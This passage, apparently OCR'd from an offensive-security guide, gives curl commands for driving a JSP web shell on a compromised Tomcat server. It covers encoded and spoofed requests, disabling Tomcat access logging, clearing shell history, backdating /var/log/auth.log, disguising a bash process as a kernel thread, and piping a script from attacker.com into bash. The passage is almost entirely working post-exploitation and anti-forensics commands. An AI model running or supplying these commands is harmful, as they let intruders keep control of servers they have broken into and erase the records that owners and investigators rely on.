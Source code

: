 #### Traffic Encryption and Tunneling
```bash
# HTTPS communication (if available)
curl -k "https://target:8443/shell.jsp?cmd=whoami"

# HTTP POST to avoid URL logging
curl -X POST "http://target:8080/shell.jsp" -d "cmd=whoami"

# Base64 encoded commands
cmd_encoded=$(echo "whoami" | base64)
curl "http://target:8080/shell.jsp?cmd=echo+$cmd_encoded|base64+-d|sh"

# User-Agent spoofing
curl -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36" \
     "http://target:8080/shell.jsp?cmd=whoami"
```

### Log Evasion Strategies

#### Tomcat Access Log Manipulation
```bash
# Identify log file locations
curl "http://target:8080/shell.jsp?cmd=find+/opt/tomcat+-name+*access*"

# Check current log configuration
curl "http://target:8080/shell.jsp?cmd=cat+/opt/tomcat/conf/server.xml" | grep -i "AccessLogValve"

# Disable access logging (temporary)
curl "http://target:8080/shell.jsp?cmd=sed+-i+'s/pattern=/#pattern=/g'+/opt/tomcat/conf/server.xml"

# Log rotation and cleanup
curl "http://target:8080/shell.jsp?cmd=logrotate+-f+/etc/logrotate.d/tomcat"
```

#### System Log Evasion
```bash
# Clear command history
curl "http://target:8080/shell.jsp?cmd=history+-c"
curl "http://target:8080/shell.jsp?cmd=unset+HISTFILE"

# Modify timestamps
curl "http://target:8080/shell.jsp?cmd=touch+-t+202301010000+/var/log/auth.log"

# Process hiding techniques
curl "http://target:8080/shell.jsp?cmd=exec+-a+[kworker]+/bin/bash"

# Memory-only execution
curl "http://target:8080/shell.jsp?cmd=curl+http://attacker.com/script.sh|bash"
```

---
